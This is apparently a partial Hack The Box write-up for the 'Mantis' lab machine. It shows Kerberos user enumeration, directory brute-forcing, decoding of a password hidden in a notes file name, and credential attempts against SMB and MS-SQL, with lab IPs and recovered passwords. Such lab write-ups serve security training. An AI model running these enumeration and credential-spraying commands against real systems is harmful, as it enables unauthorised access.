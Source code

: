 
```
Domain Name: HTB                                                              
Domain Sid: S-1-5-21-4220043660-4019079961-2895681657
```

```
kerbrute userenum -d htb.local --dc 10.10.10.52 userlist.txt -t 100
```

```
james@htb.local
James@htb.local
administrator@htb.local
mantis@htb.local
JAMES@htb.local
Administrator@htb.local
Mantis@htb.local
```

![[Pasted image 20240515233953.png]]


We have to go Old School as this machine is hard and we need a entry point to get into.
We have 2 domain controller and 3 http sites which simply means that we have to do directory busting.

```
http://10.10.10.52:1337/secure_notes/
```


```
gobuster dir -u http://10.10.10.52:1337 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![[Pasted image 20240516003001.png]]

We already have the valid user names so in short we have the usernames and all we need is a password to get into.


```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.


Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```

If you the file names seems fishy to mee
```
ev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
```


It's some kind of password
```
6d2424716c5f53405f504073735730726421
```
![[Pasted image 20240516005334.png]]


We got the password of the MS-SQL user.
```
m$$ql_S@_P@ssW0rd!
```
![[Pasted image 20240516005420.png]]

I just want to see if we can login with this into smb but failed
```
crackmapexec smb 10.10.10.52 -u ~root/HackTheBox/Mantis/valid_user.txt -p m$$ql_S@_P@ssW0rd!
```


We have to login into the sql server and i have to find the command for it

```
mysql -h 10.10.10.52 -u admin -p 'm$$ql_S@_P@ssW0rd!'
```

